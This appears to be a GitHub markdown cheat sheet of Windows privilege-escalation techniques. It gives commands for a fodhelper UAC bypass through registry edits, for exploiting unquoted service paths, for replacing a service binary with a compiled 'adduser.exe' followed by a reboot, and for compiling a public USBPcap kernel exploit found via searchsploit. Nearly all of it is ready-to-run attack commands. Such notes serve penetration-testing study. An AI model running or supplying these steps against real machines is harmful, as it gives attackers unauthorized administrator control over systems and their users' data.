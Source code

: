 # Privilege_Escalation_Windows

## reference

<https://www.fuzzysecurity.com/tutorials/16.html>

### LOLBAS

<https://lolbas-project.github.io/>

### Sysinterals Suite

<https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite>

## information gathering

```cmd
systeminfo
whoami
net user
net user <username>

```

```powershell
Get-ComputerInfo
```

## UAC bypass

```cmd

Win10 build 1709, 1809 ...
C:\Windows\System32\fodhelper.exe

```cmd
sigcheck.exe -a -m c:\windows\system32\fodhelper.exe

REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
```

## file permission

```powershell
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like "Running"}
```

### space in the path & unclosed quotes

```cmd
C:\Program Files\VMware\VMware Tools\VMwareUser.exe

C:\Program.exe
C:\Program Files\VMware\VMware.exe
```

### full control file replacement

```bash
i686-w64-mingw32-gcc adduser.c -o adduser.exe
```

```cmd
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"

move ServiioService.exe ServiioService.exe.bak
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"

wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\"

whoami /priv
shutdown /r /t 0
net localgroup administrators
```

## kernel vulnerability

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
driverquery /v
USBPcap
cd "C:\Windows\System32\drivers"
type USBPcap.inf
```

```bash
searchsploit USBPcap
USBPcap 1.1.0.0 (WireShark 2.2.5) - Local Privilege Escalation      |       windows/local/41542.c
i686-w64-mingw32-gcc 41542.c -o 41542.exe
```

## Tips

- linpeas
